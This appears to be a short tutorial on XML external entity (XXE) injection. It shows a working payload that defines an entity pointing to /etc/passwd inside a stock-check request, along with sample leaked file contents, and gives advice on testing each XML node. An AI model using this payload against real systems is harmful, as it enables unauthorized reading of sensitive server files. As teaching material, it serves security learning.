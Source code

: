 To perform an XXE Injection Attack to retrieve sensitive system files, an attacker needs to modify the submitted XML in two ways:
1. Introduce or edit a `DOCTYPE` element that defines an external entity containing the path of the file.
2. Edit a value in the XML that is returned in the application's HTTP response, to make sure of the defined external entity.

For example, an application checks the stock level of a product by submitting the following XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```
An attacker can exploit the XXE vulnerability by modifying the XML to include the XXE payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
The XXE payload defines the `&xxe;` in the `DOCTYPE` and uses the entity within the `productId` tag to return the value. This causes the application's response to include the contents of the file:
```txt
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```
## Note
With real-world XXE vulnerabilities, there will often be a large number of data values within the submitted XML, any one of which might be used within the application's response. To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response.